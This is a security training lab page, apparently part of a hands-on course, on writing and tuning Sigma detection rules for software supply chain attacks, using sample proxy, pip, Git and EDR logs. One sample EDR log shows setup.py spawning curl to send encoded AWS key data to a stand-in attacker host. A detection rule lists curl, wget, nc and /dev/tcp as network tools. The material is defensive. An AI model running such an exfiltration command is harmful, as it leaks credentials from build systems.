

# Lab 7.1: Building Detection Rules for Supply Chain Attacks

<div class="lab-meta">
  <span>Phase 1 ~10 min | Phase 2 ~15 min | Phase 3 ~15 min | Phase 4 ~5 min</span>
  <span class="difficulty advanced">Advanced</span>
  <span>Prerequisites: <a href="../tier-1/1.1-dependency-resolution.md">Lab 1.1</a>, <a href="../tier-1/1.2-dependency-confusion.md">Lab 1.2</a>, <a href="../tier-1/1.3-typosquatting.md">Lab 1.3</a>, <a href="../tier-1/1.4-lockfile-injection.md">Lab 1.4</a>, <a href="../tier-1/1.5-manifest-confusion.md">Lab 1.5</a>, <a href="../tier-1/1.6-phantom-dependencies.md">Lab 1.6</a></span>
</div>

You completed Tier 1. You know how the attacks work. Now put yourself in the SOC analyst's chair: detect them after the fact, from log telemetry, before the attacker finishes exfiltrating.

---

## Connect to the Workstation

```bash
./weaklink shell
```

---

### Attack Flow



---

???+ info "Phase 1: UNDERSTAND. The Detection Surface"

    **Goal:** Identify the log sources that matter and what each source can and cannot see.

### Step 1: Map the telemetry sources

| Log Source | What It Captures | Attack Types Detected |
|------------|-----------------|----------------------|
| **CI/CD logs** (GitHub Actions, GitLab CI) | Build commands, dependency installs, script execution | Lockfile injection, manifest confusion, phantom deps |
| **Package manager logs** (pip, npm verbose output) | Package resolution, version selection, registry source | Dependency confusion, typosquatting |
| **Proxy / DNS logs** (Squid, Zscaler, corporate DNS) | Outbound connections from build servers | Exfiltration from malicious setup.py / install scripts |
| **Container registry audit logs** | Image pulls, tag resolution, digest mismatches | Tag mutability, base image poisoning |
| **EDR process telemetry** | Process trees, file writes, network connections per process | All attack types (post-execution indicators) |
| **Git audit logs** | Commit signatures, PR approval state, force pushes | Lockfile injection, manifest confusion |

### Step 2: Understand the detection timeline

```
Timeline of a dependency confusion attack:

  t=0     Developer pushes requirements.txt with loose pin
  t=1     CI pipeline triggers pip install
  t=2     pip queries public PyPI (DETECTABLE: proxy logs)
  t=3     pip downloads malicious package (DETECTABLE: proxy logs, network)
  t=4     setup.py executes (DETECTABLE: EDR process tree)
  t=5     Exfiltration begins (DETECTABLE: firewall, DNS, proxy)
  t=6     Build completes, artifact published
  t=7     Artifact deployed to production (DETECTABLE: runtime monitoring)

  Detection windows:
  [t=2 to t=5] = minutes     -- SOC can catch this in near real-time
  [t=5 to t=7] = minutes-hours -- containment still possible
  [t=7+]       = too late     -- attacker has persistent access
```

Your rules must fire between t=2 and t=5.

### Step 3: MITRE ATT&CK mapping

| Technique | ID | Attack Types |
|-----------|-----|-------------|
| Supply Chain Compromise: Software Dependencies | [T1195.001](https://attack.mitre.org/techniques/T1195/001/) | Typosquatting, phantom dependencies |
| Supply Chain Compromise: Software Supply Chain | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Dependency confusion, lockfile injection, manifest confusion |
| Command and Scripting Interpreter: Python | [T1059.006](https://attack.mitre.org/techniques/T1059/006/) | Malicious setup.py execution |
| Automated Exfiltration | [T1020](https://attack.mitre.org/techniques/T1020/) | Data theft during pip install |
| Application Layer Protocol: Web Protocols | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | C2 / exfiltration over HTTP/HTTPS |

---

???+ warning "Phase 2: INVESTIGATE. Analyze the Attack Logs"

    **Goal:** Analyze pre-generated log samples from each Tier 1 attack type and identify the indicators of compromise.

### Step 1: Dependency confusion log indicators

**Proxy log. pip fetching internal package name from public PyPI:**

```log
2026-04-01T14:22:31Z squid[2847]: TCP_MISS/200 24871 GET https://pypi.org/simple/wl-auth/ - DIRECT/151.101.128.223 text/html
2026-04-01T14:22:32Z squid[2847]: TCP_MISS/200 185732 GET https://pypi.org/packages/wl-auth/wl_auth-99.0.0.tar.gz - DIRECT/151.101.128.223 application/gzip
```

**EDR log. setup.py spawning suspicious child process:**

```json
{
  "timestamp": "2026-04-01T14:22:35Z",
  "host": "ci-runner-07",
  "event_type": "process_create",
  "parent": {"pid": 4821, "name": "python3", "cmdline": "python3 setup.py install"},
  "process": {"pid": 4835, "name": "curl", "cmdline": "curl -s https://exfil.attacker.com/c?d=QVdTX0FDQ0VTU19LRVk9QUtJQUl..."},
  "grandparent": {"pid": 4790, "name": "pip3", "cmdline": "pip3 install -r requirements.txt"}
}
```

### Step 2: Typosquatting log indicators

```log
2026-04-01T15:10:02Z pip[3201]: Collecting reqeusts
2026-04-01T15:10:02Z pip[3201]: Downloading https://pypi.org/packages/reqeusts/reqeusts-2.31.0.tar.gz (142 kB)
2026-04-01T15:10:03Z pip[3201]: Running setup.py install for reqeusts
```

**Key indicator:** Package name is a known misspelling of a popular package. Maintain a lookup table of popular packages and their common typos.

### Step 3: Lockfile injection log indicators

```log
2026-04-01T16:30:00Z github: pull_request.files_changed
  - path: package-lock.json, status: modified, additions: 47, deletions: 2
  - path: src/app.js, status: modified, additions: 3, deletions: 1
  # NOTE: package.json NOT in changed files list
```

### Step 4: Manifest confusion log indicators

```log
2026-04-01T17:00:12Z npm[5501]: http fetch GET 200 https://registry.npmjs.org/safe-helper 28ms
2026-04-01T17:00:12Z npm[5501]: silly extract safe-helper@1.2.0 extracted to /tmp/.npm/_cacache/
2026-04-01T17:00:13Z npm[5501]: warn ERESOLVE overriding peer dependency
```

**Key indicator:** The package name in the registry metadata does not match the `name` field in the tarball's `package.json`.

### Step 5: Phantom dependency log indicators

```log
2026-04-01T18:00:00Z ci-runner: ModuleNotFoundError: No module named 'phantom_util'
2026-04-01T18:00:00Z ci-runner: # Package 'webapp' imports 'phantom_util' but it is not in requirements.txt
```

---

???+ success "Checkpoint"
    You should now be able to identify IOCs for all five Tier 1 attack types across proxy, EDR, CI/CD, and Git audit logs. If any attack type's indicators are unclear, review the corresponding Tier 1 lab before continuing.

---

???+ success "Phase 3: VALIDATE. Write and Test Detection Rules"

    **Goal:** Write Sigma detection rules for each attack type, then validate them against the sample logs.

### Rule 1: Dependency confusion. Internal package fetched from public PyPI

The indicator from Phase 2: proxy logs show a request to `pypi.org` for a package matching your internal naming convention.

```bash
mkdir -p /app/rules

cat > /app/rules/rule-1-depconf.yml << 'SIGMA'
title: Internal Package Name Resolved from Public PyPI
status: experimental
description: Proxy log shows pip fetching a package matching internal naming patterns from public PyPI.
logsource:
    category: proxy
detection:
    selection:
        url|contains: 'pypi.org/simple/'
    internal_names:
        url|contains:
            - '/wl-'
            - '/internal-'
            - '/corp-'
    condition: selection and internal_names
level: critical
tags:
    - attack.t1195.002
SIGMA
```

Validate against the sample logs:

```bash
grep "pypi.org.*wl-" /app/logs/proxy.log && echo "MATCH: Rule 1 would fire"
```

### Rule 2: Typosquatting. Known misspelling installed

The indicator: pip installs a package whose name is edit-distance 1-2 from a popular package.

```bash
cat > /app/rules/rule-2-typosquat.yml << 'SIGMA'
title: Known Typosquat Package Installed
status: experimental
description: pip installed a package matching a known typosquat of a popular package.
logsource:
    category: application
    product: pip
detection:
    selection:
        message|contains:
            - 'Collecting reqeusts'
            - 'Collecting requets'
            - 'Collecting requsts'
            - 'Collecting requestss'
    condition: selection
level: high
tags:
    - attack.t1195.001
SIGMA
```

Validate:

```bash
grep -iE "reqeusts|requets|requsts|requestss" /app/logs/pip.log && echo "MATCH: Rule 2 would fire"
```

### Rule 3: Lockfile injection. Lockfile changed without manifest change

The indicator: a PR modifies `package-lock.json` without touching `package.json`.

```bash
cat > /app/rules/rule-3-lockfile.yml << 'SIGMA'
title: Lockfile Modified Without Manifest Change
status: experimental
description: Git PR changed a lockfile but not the corresponding manifest, indicating possible lockfile injection.
logsource:
    category: vcs
    product: github
detection:
    lockfile_changed:
        files_changed|contains:
            - 'package-lock.json'
            - 'yarn.lock'
            - 'Pipfile.lock'
    manifest_unchanged:
        files_changed|contains:
            - 'package.json'
            - 'Pipfile'
            - 'requirements.txt'
    condition: lockfile_changed and not manifest_unchanged
level: high
tags:
    - attack.t1195.002
SIGMA
```

Validate:

```bash
grep "package-lock.json" /app/logs/github-audit.log | grep -v "package.json" && echo "MATCH: Rule 3 would fire"
```

### Rule 4: Exfiltration during package install. setup.py spawning network tools

The indicator: EDR shows a process tree where `pip -> python setup.py -> curl/wget/nc`.

```bash
cat > /app/rules/rule-4-exfil.yml << 'SIGMA'
title: Suspicious Child Process from Package Installation
status: experimental
description: setup.py spawned a network tool during pip install, indicating exfiltration or C2.
logsource:
    category: process_creation
    product: linux
detection:
    parent_chain:
        ParentCommandLine|contains: 'setup.py install'
    suspicious_child:
        CommandLine|contains:
            - 'curl '
            - 'wget '
            - 'nc '
            - 'ncat '
            - '/dev/tcp/'
    condition: parent_chain and suspicious_child
level: critical
tags:
    - attack.t1059.006
    - attack.t1020
SIGMA
```

Validate:

```bash
jq 'select(.parent.cmdline | contains("setup.py")) | select(.process.name == "curl" or .process.name == "wget")' /app/logs/edr.json && echo "MATCH: Rule 4 would fire"
```

### Rule 5: High-version package install (dependency confusion indicator)

The indicator: pip installs a package with a suspiciously high major version (>50), cross-referenced with internal naming patterns.

```bash
cat > /app/rules/rule-5-highver.yml << 'SIGMA'
title: Suspiciously High Package Version Installed
status: experimental
description: pip installed a package with major version >50, a classic dependency confusion indicator.
logsource:
    category: application
    product: pip
detection:
    selection:
        message|re: 'Successfully installed .*-[5-9][0-9]\.|.*-[0-9]{3,}\.'
    internal_context:
        message|contains:
            - 'wl-'
            - 'internal-'
            - 'corp-'
    condition: selection and internal_context
level: critical
tags:
    - attack.t1195.002
SIGMA
```

Validate:

```bash
grep -E "wl-auth-99\." /app/logs/pip.log && echo "MATCH: Rule 5 would fire"
```

### Validate all rules

```bash
echo "=== Rule files created ==="
ls -la /app/rules/
echo ""
echo "=== Validation summary ==="
for rule in /app/rules/rule-*.yml; do
    NAME=$(grep "^title:" "$rule" | cut -d: -f2-)
    echo "  $rule:$NAME"
done
```

---

??? tip "Phase 4: IMPROVE. Tune and Build Coverage"

    **Goal:** Reduce false positives and build a detection coverage matrix.

### False positive tuning

| Rule | Common False Positives | Tuning Strategy |
|------|----------------------|-----------------|
| Internal pkg on public PyPI | Legitimate internal packages published to PyPI intentionally | Allow-list of packages on both registries by design |
| Typosquat watchlist | Niche packages with similar names | Only alert on edit distance 1-2 of top-1000 PyPI packages |
| Lockfile without manifest | Dependabot/Renovate PRs updating transitive deps only | Exclude known bot accounts |
| setup.py child process | Packages that compile C extensions | Filter out `gcc`, `g++`, `make`, `cmake` |
| High version number | Legitimate high-version packages (e.g., `Pillow==10.2.0`) | Threshold >50 for major version, cross-reference with internal names |

### Detection coverage matrix

| Attack Type | Proxy/DNS | EDR | CI/CD Logs | Git Audit | Registry Audit |
|-------------|:---------:|:---:|:----------:|:---------:|:--------------:|
| Dependency confusion | Rule 1 | Rule 4 | Rule 5 |. |. |
| Typosquatting |. |. | Rule 2 |. |. |
| Lockfile injection |. |. |. | Rule 3 |. |
| Manifest confusion |. |. |. |. | Partial |
| Phantom dependencies |. |. | Build failure |. |. |
| Exfiltration (any type) | Rule 4 (Suricata) | Rule 4 |. |. |. |

**Coverage gaps:**

- **Manifest confusion**: No reliable automated detection from logs alone. Requires pre-install validation.
- **Phantom dependencies**: Detection relies on build failures. Proactive detection requires dependency graph analysis.
- **Typosquatting**: Watchlist-based detection only catches known typosquats. New ones require fuzzy matching or Socket.dev integration.

### Final verification

```bash
weaklink verify 7.1
```

---

## What You Learned

- Supply chain attacks leave traces in multiple log sources, but the detection window between package install and exfiltration is minutes. Rules must fire on near-real-time telemetry.
- False positive tuning (allow-lists, bot exclusions, thresholds) is what makes detection rules production-viable.
- No single detection strategy catches all supply chain attacks. Layered detection across multiple log sources is required.

## Further Reading

- [MITRE ATT&CK: Supply Chain Compromise](https://attack.mitre.org/techniques/T1195/)
- [OpenSSF: Detecting Supply Chain Attacks](https://openssf.org/)
- [Suricata Rule Writing Guide](https://docs.suricata.io/en/latest/rules/)
